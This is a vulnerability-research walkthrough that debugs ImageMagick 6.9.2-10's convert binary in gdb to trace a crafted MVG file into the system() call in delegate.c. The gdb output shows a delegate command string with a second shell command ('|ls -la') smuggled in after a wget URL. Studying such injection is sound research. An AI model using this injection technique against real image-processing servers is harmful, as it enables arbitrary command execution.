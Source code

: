 
So that `gdb` can run the `convert` binary successfully, need to recreate the environment before launching `gdb`.

    root@kali:~/Downloads/ImageMagick-6.9.2-10/utilities# LD_LIBRARY_PATH="/root/Downloads/ \
      ImageMagick-6.9.2-10/magick/.libs:/root/Downloads/ImageMagick-6.9.2-10/wand/.libs: \
      $LD_LIBRARY_PATH"
    root@kali:~/Downloads/ImageMagick-6.9.2-10/utilities/.libs# export LD_LIBRARY_PATH

Now in the `.libs` directory:

    root@kali:~/Downloads/ImageMagick-6.9.2-10/utilities# cd .libs
    root@kali:~/Downloads/ImageMagick-6.9.2-10/utilities/.libs# ls
    animate  compare  composite  conjure  convert  display  identify  import  mogrify
       montage  stream


With everything in place, are ready to start `gdb`:

    root@kali:~/Downloads/ImageMagick-6.9.2-10/utilities/.libs# gdb convert
    gdb-peda$ break main
    Breakpoint 1 at 0x1299: file utilities/convert.c, line 92.
    gdb-peda$ r /root/git/PoCs/exploit.mvg /root/git/PoCs/exploit.png
    Breakpoint 1, main (argc=0x3, argv=0xffffd294) at utilities/convert.c:92
    92	  return(ConvertMain(argc,argv));


Now the main break has been hit, can set breaks on modules that have been dynamically linked, like the `ExternalDelegateCommand` where delegate commands (which is a large part of the vulnerability lies):

    gdb-peda$ break ExternalDelegateCommand
    Breakpoint 2 at 0xf7ca12c6: file magick/delegate.c, line 367.
    gdb-peda$ c

From looking at the source code earlier, found line 402 in `delegate.c` is where the `system()` call gets invoked for the delegate command, like this:

    status=system(sanitize_command);

I'll try to break on that specific line:

    gdb-peda$ break delegate.c:402
    Breakpoint 3 at 0xf7ca149b: file magick/delegate.c, line 404.
    gdb-peda$ c
    Breakpoint 3, ExternalDelegateCommand (asynchronous=MagickFalse, verbose=MagickFalse, 
        command=0x565fcae0 "\"wget\" -q -O \"/tmp/magick-16728_BYEqAKAG7Qu\" 
           \"https://localhost/sp1017.jpg\"|ls \"-la\"", message=0x0, exception=0x5658b9c8)
        at magick/delegate.c:404
    404	  if ((asynchronous != MagickFalse) ||

Success! In `gdb` I get `peda` to dump the memory around the stack pointer, which shows the `sanitize_command` variable that is passed into `system`. As shown it doesn't look so sanitzed, with the `"|ls "-la` tacked on the back of the buffer. 


    [------------------------------------stack-------------------------------------]
    0000| 0xfffe35f0 --> 0xf7ffd000 --> 0x28f2c 
    0004| 0xfffe35f4 --> 0xf7c313c0 --> 0x675f5f00 ('')
    0008| 0xfffe35f8 --> 0x5655a014 --> 0x707 
    0012| 0xfffe35fc --> 0xf79b050a (<__close+42>:	cmp    eax,0xfffff000)
    0016| 0xfffe3600 --> 0x7 
    0020| 0xfffe3604 --> 0xf7c2b2f0 --> 0x290f 
    0024| 0xfffe3608 --> 0x5655b4c0 --> 0x0 
    0028| 0xfffe360c --> 0x565f2600 ("\"wget\" -q -O \"/tmp/magick-16728_BYEqAKAG7Qu\"
        \"https://localhost/sp1017.jpg\"|ls \"-la\"")
